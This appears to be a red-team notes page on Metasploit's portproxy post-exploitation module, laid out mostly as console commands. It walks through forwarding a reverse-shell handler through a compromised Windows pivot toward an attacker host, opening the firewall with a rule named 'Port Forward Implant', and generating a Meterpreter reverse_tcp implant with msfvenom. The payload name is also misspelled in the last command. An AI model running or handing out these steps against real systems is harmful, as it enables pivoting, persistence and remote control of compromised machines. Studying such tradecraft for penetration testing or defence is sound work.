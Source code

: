 # C2 Frameworks

## 01 - Metasploit

```
msf > use post/windows/manage/portproxy

msf post(windows/manage/portproxy) > options

Module options (post/windows/manage/portproxy):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   CONNECT_ADDRESS                   yes       IPv4/IPv6 address to which to connect.
   CONNECT_PORT                      yes       Port number to which to connect.
   IPV6_XP          true             yes       Install IPv6 on Windows XP (needed for v4tov4).
   LOCAL_ADDRESS                     yes       IPv4/IPv6 address to which to listen.
   LOCAL_PORT                        yes       Port number to which to listen.
   SESSION                           yes       The session to run this module on
   TYPE             v4tov4           yes       Type of forwarding (Accepted: v4tov4, v6tov6, v6tov4, v4tov6)

msf post(windows/manage/portproxy) > set session <session_ID>

msf post(windows/manage/portproxy) > set connect_address <FHOST>

msf post(windows/manage/portproxy) > set connect_port <FPORT>

msf post(windows/manage/portproxy) > set local_address <LHOST>

msf post(windows/manage/portproxy) > set local_port <LPORT>

msf post(windows/manage/portproxy) > set type <v4tov4 | v6tov6 | v6tov4 | v4tov6>

msf post(windows/manage/portproxy) > set ipv6_xp <true | false>

msf post(windows/manage/portproxy) > run
```

### 1.1 - Scenarios

#### 1.1.1 - Remote Port Forwarding Reverse Shells

Port forward the reverse shell handler.

```
msf post(windows/manage/portproxy) > set session <session_ID>

msf post(windows/manage/portproxy) > set connect_address <attacker_IP>

msf post(windows/manage/portproxy) > set connect_port 8443

msf post(windows/manage/portproxy) > set local_address 0.0.0.0

msf post(windows/manage/portproxy) > set local_port 8443

msf post(windows/manage/portproxy) > set type v4tov4

msf post(windows/manage/portproxy) > run
```

In `meterpreter` interactive shell look for a listening port of 8443 under `LISTEN` state.

```
meterpreter > netstat
```

Add a firewall rule

```
meterpreter > shell

C:\> netsh advfirewall firewall add rule name="Port Forward Implant" protocol=tcp dir=in localip=<compromised_pivot_IP>  localport=8443 action=allow
```

Then you can launch a reverse shell handler. Just specify the compromised system's IP and PORT.

```
$ msfvenom -p windows/x64/metepreter/reverse_tcp lhost=<compromised_pivot_IP> lport=8443 -f exe -o implant.exe
```
